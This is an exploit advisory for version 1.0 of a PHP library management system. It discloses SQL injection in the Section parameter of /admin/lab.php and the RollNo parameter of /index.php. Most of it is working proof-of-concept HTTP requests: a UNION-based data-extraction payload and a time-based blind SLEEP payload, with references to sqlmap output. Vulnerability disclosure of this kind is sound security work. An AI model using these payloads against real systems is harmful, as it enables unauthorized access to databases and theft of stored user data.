 ### Exploit Title: Library Management System with QR code Attendance and Auto Generate Library Card - Multiple SQL injections
### Date: 2022-07/20
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/15434/library-management-system-qr-code-attendance-and-auto-generate-library-card.html
### Version: 1.0
### Tested on: windows10 + phpstudy


# 1./admin/lab.php
/lab.php SQL injection exists for parameter Section

### Sample request POC #1

```
POST /admin/lab.php HTTP/1.1
Host: [IP:PORT]
Connection: close
Content-Length: 208
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: null
Sec-Fetch-Site: none
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

submit=1&Section=1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71716b7171,0x546e4444736b7743575a666d4873746a6450616261527a67627944426946507245664143694c6a4c,0x7162706b71),NULL,NULL,NULL,NULL#&Status=1
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16583071067058.png "Library Management System with QR code Attendance and Auto Generate Library Card")


# 2./index.php
/index.php SQL injection exists for parameter RollNo

### Sample request POC #2

```
POST /index.php HTTP/1.1
Host: www.l-ms.com
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 111

RollNo=admin' AND (SELECT 2625 FROM (SELECT(SLEEP(5)))MdIL) AND 'KXmq'='KXmq&Password=1231312312&signin=Sign In
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16583074181046.png "Library Management System with QR code Attendance and Auto Generate Library Card")



